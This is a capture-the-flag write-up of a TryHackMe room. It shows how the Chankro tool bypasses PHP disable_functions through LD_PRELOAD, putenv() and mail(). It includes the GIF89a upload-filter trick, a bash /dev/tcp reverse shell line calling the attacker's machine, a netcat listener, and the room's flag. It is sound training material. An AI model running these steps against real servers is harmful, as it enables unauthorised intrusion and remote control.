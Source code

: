 ## Bypass Disable Functions - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/bypassdisablefunctions)

What is a file upload vulnerability?

This vulnerability occurs in web applications where there is the possibility of uploading a file without being checked by a security system that curbs potential dangers. 

It allows an attacker to upload files with code (scripts such as .php, .aspx and more) and run them on the same server, more information in this room.

Why this room?

Among the typically applied measures is disabling dangerous functions that could execute operating system commands or start processes. Functions such as system() or shell_exec() are often disabled through PHP directives defined in the php.ini configuration file. Other functions, perhaps less known as dl() (which allows you to load a PHP extension dynamically), can go unnoticed by the system administrator and not be disabled. The usual thing in an intrusion test is to list which functions are enabled in case any have been forgotten.

One of the easiest techniques to implement and not very widespread is to abuse the mail() and putenv() functionalities. This technique is not new, it was already reported to PHP in 2008 by gat3way, but it still works to this day. Through the putenv() function, we can modify the environment variables, allowing us to assign the value we want to the variable LD_PRELOAD. Roughly LD_PRELOAD will allow us to pre-load a .so library before the rest of the libraries, so that if a program uses a function of a library (libc.so for example), it will execute the one in our library instead of the one it should. In this way, we can hijack or "hook" functions, modifying their behaviour at will.

[Chankro](https://github.com/TarlogicSecurity/Chankro): tool to evade disable_functions and open_basedir

Through Chankro, we generate a PHP script that will act as a dropper, creating on the server a .so library and the binary (a meterpreter, for example) or bash script (reverse shell, for example) that we want to execute freely, and that will later call putenv() and mail() to launch the process.

Install tool:

```
git clone https://github.com/TarlogicSecurity/Chankro.git
cd Chankro
python2 chankro.py --help

python chankro.py --arch 64 --input c.sh --output tryhackme.php --path /var/www/html

--arch = Architecture of system victim 32 o 64.
--input = file with your payload to execute
--output = Name of the PHP file you are going to create; this is the file you will need to upload.
--path = It is necessary to specify the absolute path where our uploaded PHP file is located. For example, if our file is located in the uploads folder DOCUMENTROOT + uploads. 
```

Now, when executing the PHP script in the web server, the necessary files will be created to execute our payload. My command run successfully, and I created a file in the directory with the output of the command.

All credit goes to [Tarlogic](https://www.tarlogic.com/es/blog/evadir-disable_functions-open_basedir/) for the script and explaining the method of the bypass.

**IP: 10.10.248.32**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: File Upload Vulnerabilities <br>

**Tools Used**: Nmap, Nikto, Gobuster, Chankro

[Chankro](https://github.com/TarlogicSecurity/Chankro)<br>

**Author**: <br>

mauzware aka mauzinho <br>
[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- First, I did Nmap scan as always.

  ```
  nmap -A -p- 10.10.248.32
  22 open, 80 open
  22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
  80 -> Apache httpd 2.4.18 ((Ubuntu))
  ```

- Ok, cool, so it has web app. I did Gobuster, it found couple of directories, and Nikto but I forgot to save Gobuster output...

  ```
  nikto -h 10.10.248.32
  /phpinfo.php
  Linux ubuntu 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64
  ```
  
- While I was going through web page, I found `/assets` and when I went to `/phpinfo.php` I found root directory `/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db`

---

## ⚙️ Shell Access

- Alrighty, let's start exploiting with Chankro. Tool is pretty simple, it is going to make your script into `.php` and allow it to execute custom payloads without the PHP restriction. Let's test it with basic command `whoami`.

  Make a shell, use Chankro then upload both files and open them on web page.

  ```
  #Creating payload
  nano command.sh
  
  #!/bin/bash
  
  whoami > /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/exploit.txt

  #Save this payload

  #Now use Chankro
  python2 Chankro/chankro.py --arch 64 --input command.sh --output exploit.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db
  ```

- Since that part is done, before you upload them, you must edit `exploit.php` by adding `GIF89a;` at the beginning of script othervise it won't work at all. Then upload exploits and open them on web page.

  ```
  go to http://10.10.248.32/uploads and open exploit.php
  
  go to http://10.10.248.32/exploit.txt and open it
  ```

- `exploit.txt` will show `www-data` which means command worked! Now let's do the same process again but with interractive shell instead of command.

  ```
  nano shell.sh
  
  #!/bin/bash
  
  bash -i >& /dev/tcp/[YOUR-THM-IP]/[PORT] 0>&1
  
  #Save it.
  
  python2 Chankro/chankro.py --arch 64 --input shell.sh --output exploit2.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db
  
  edit exploit2.php by adding GIF89a; at the beginning
  ```

- Now upload `exploit2.php`, start a listener and then open the `exploit2.php` on web page and you'll have interractive shell. Let's get the flag now.
  ```
  nc -lvnp [PORT]
  ```
  
---

## 🧍 User Privilege Escalation

- Getting the flag was pretty easy, use `find` to find it and then `cat` it.
  ```
  find / -name flag.txt
  
  cat /home/s4vi/flag.txt
  ```

---

## 🏁 Flags

- **User Flag**: `thm{bypass_d1sable_functions_1n_php}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing much honestly.`

- What did I learn?
  `New tool and new exploits.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
